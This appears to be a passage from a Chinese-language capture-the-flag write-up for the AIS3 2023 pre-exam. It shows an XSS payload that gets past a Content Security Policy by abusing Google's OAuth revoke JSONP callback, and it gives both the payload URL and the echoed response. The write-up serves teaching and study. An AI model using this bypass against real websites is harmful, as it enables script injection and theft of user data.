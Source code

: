 ![](/ais3-pre-exam-2023-write-up/csp-evaluator.png)

可以使用下面這個 endpoint，把 XSS payload 放到 `?callback` 裡就能用了，那個網址的回應如下二所示，可看到我們的 `fetch('/api/portfolio');` 被放進回應裡，而且是個可正常執行的 Javascript。

```url
https://accounts.google.com/o/oauth2/revoke?callback=fetch(%27/api/portfolio%27);
```

```javascript
// API callback
fetch('/api/portfolio');({
  "error": {
    "code": 400,
    "message": "Invalid JSONP callback name: 'fetch('/api/portfolio');'; only alphabet, number, '_', '$', '.', '[' and ']' are allowed.",
    "status": "INVALID_ARGUMENT"
  }
}
);
```
